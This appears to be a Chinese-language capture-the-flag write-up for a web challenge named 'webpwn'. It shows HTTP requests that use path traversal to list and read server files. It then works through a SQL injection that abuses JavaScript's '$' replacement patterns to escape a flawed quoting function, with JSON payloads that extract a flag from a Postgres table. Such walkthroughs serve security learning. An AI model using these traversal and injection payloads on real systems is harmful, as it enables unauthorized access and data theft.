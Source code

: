 # webpwn

假pwn，真web

列目錄:

```
POST /cmd/ls HTTP/1.1
Host: webpwn.hackable.software:8080
Content-Length: 2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Connection: close

..
```

->

```
.ansible
.npm
babyheap.js
db.js
files
node_modules
package-lock.json
package.json
schema.sql
server.js
static
views
```


讀檔:

```
POST /cmd/cat HTTP/1.1
Host: webpwn.hackable.software:8080
Content-Length: 17
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Connection: close

../files/flag.txt
```

->

`No flag here, you need to look elsewhere ...`

仔細看一下schema.sql會看到:

```
--
-- Name: flag; Type: TABLE; Schema: public; Owner: postgres
--

CREATE TABLE public.flag (
    flag text
);


ALTER TABLE public.flag OWNER TO postgres;
```

所以目標是撈db中的flag

<br>

其中用來防SQL Injection的prepare function雖然看起來很完美，但其實是有問題的:

```
function prepare(query, params) {
        for (const key in params) {
                query = query.replaceAll(':' + key, sqlEscape(params[key]));
        }
        return query;
}
function sqlEscape(value) {
        return "'" + String(value).replace(/[^\x20-\x7e]|[']/g, '') + "'";
}
```

javascript replace string 中可以用 `$`

(ref: https://developer.mozilla.org/zh-TW/docs/Web/JavaScript/Reference/Global_Objects/String/replace#%E6%8C%87%E5%AE%9A%E4%B8%80%E5%80%8B%E5%AD%97%E4%B8%B2%E7%82%BA%E5%8F%83%E6%95%B8)

所以可以搞掉單引號去做注入:

```
{"key":"between $$$$a$$$$ and $$$$b$$$$)--","data":"$`"}
```

->

```
INSERT INTO notes (key, session_id, data) VALUES ('between $$a$$ and $$b$$)--', '01188712511121132590445932261811', 'INSERT INTO notes (key, session_id, data) VALUES ('between $$a$$ and $$b$$)--', '01188712511121132590445932261811', ')
```

成功跳脫單引號

後續就是插入一筆包含flag的資料:

```
{
    "key":"IS NULL),($$$$flag$$$$,$$$$01188712511121132590445932261811$$$$,(select flag from flag))--",
    "sid":"01188712511121132590445932261811"
    "data":"$`"
}
```

